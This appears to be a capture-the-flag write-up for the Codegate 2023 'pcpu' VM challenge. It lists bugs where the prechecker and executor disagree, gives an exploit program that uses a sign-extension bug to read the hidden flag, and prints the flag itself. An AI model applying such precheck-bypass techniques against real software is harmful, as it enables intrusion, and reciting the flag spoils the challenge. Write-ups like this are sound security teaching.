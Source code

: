 # pcpu

pcpu is a custom vm challenge where the program reads the bytecode, runs through the prechecker (written in python), and if prechecker exits without any error, then the command gets executed. The execution happens per cycle (an instruction per cycle) in something that looked like some different stages (of pipeline?) where each stage was run in a separate thread.

VM has 4 registers and the following opcodes:
```
0: mov dreg, imm16
1: mov dreg, sreg
2: alloc dreg, size16 ;; size is for precheck only. completely ignored during execution
3: mov [dreg, idx8], imm8
4: mov dreg, byte sreg[idx8]
5: mov [dreg, r0], imm8
6: mov dreg, byte sreg[r0]
7: print regs
```

Precheck will ensure that all registers accessed are valid and index `imm/r0` value is within the range of the size used to allocate that buffer size.

### `alloc` or `opcode 2`

`opcode 2` runs in the following manner:
  - It has a global array (size 4) of struct that it assigns from:
  ```
  {
    uint64_t is_free;
    uint8_t buf[0x10000];
  }
  ```
  - The struct is initialized to `is_free = 1` and first 8 bytes in buf is written to `(uint64_t)(rand() % 10)`. This is also done when free'd (or goes out of context as the register holding this value get overwritten).
  - During opcode execution, the program looks for a free struct, reads first 8 bytes of buf and copies a random string from the string table into the `buf`. The string table also has a pointer to flag, but that's at index `10` and thus not accessible because of `% 10` in normal execution.

### Bugs

There were multiple bugs spotted in the challenge as follows:
- Move semantics in precheck does not clear the source register to 0 but during execution, the source register is set to 0. Precheck also doesn't copy the size when moving a alloc'd register value.

- For opcode 3, prechecker checks the index length based on the register (`dreg`) it will be indexing into, however the execution engine will always index into `r0` irrespective of the opcode.

- For opcode 6, a `int8_t` value is read from `sreg[r0]` and then sign-extended to `int64_t` before saving to register. (opcode 4 probably has similar issue, but didn't confirm). This is not the case in the precheck.

- The code only holds a mutex lock while adding node to the list. This means we can potentially cause a race to happen between insert/remove and corrupt the list.


### Exploit

To exploit the challenge, we use the sign extend bug to create a negative index, and trick prechecker into thinking that we are indexing offset `0xf8` instead of `-8ull`. This allows to write mark an allocate struct as free (i.e., set bot `buf[0..8] = 10` and `is_free = 1`).

```
alloc r0, 0x200
set r0[0], 0xf8
set r0[1..7], 0xff

alloc r2, 0x200
mov r2, r0
mov r0, 0
mov r0, r2[r0]

mov r2[r0], 1
mov r3, r0

mov r2[r0], 10
alloc r1, 100

loop:
mov r0, {idx}
mov r0, r2[r0]
print_args # r0 has flag byte
jmp loop

```

**flag:** `codegate2023{a77f1e5998a7d38c0e1f77274a344f142a7ff9d167e1419d41d6489fb138b045}`
